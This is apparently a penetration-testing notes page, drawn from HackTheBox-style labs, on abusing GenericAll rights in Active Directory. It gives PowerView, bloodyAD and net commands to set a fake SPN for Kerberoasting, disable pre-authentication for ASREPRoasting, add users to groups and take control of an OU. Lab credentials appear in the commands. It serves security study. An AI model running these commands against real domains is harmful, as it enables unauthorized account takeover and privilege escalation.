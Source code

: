 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Information

**Full control** over the target account.

<table><thead><tr><th width="290">Over a User</th><th width="192">Over a Group</th><th>Over an OU</th></tr></thead><tbody><tr><td><a href="forcechangepassword.md">Change the account's password</a></td><td><a href="genericall.md#add-user-to-the-group">Add user to the group</a></td><td><a href="genericall.md#over-an-ou"><code>FullControl</code> on its members</a></td></tr><tr><td><a href="genericall.md#targeted-kerberoasting">Targeted Kerberoasting</a></td><td></td><td></td></tr><tr><td><a href="genericall.md#targeted-asreproasting">Targeted ASREPRoasting</a></td><td></td><td></td></tr></tbody></table>

## Exploitation

### Over a User

<figure><img src="../../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

{% tabs %}
{% tab title="PS" %}
```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
```powershell
# add user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# confirm group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

### Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
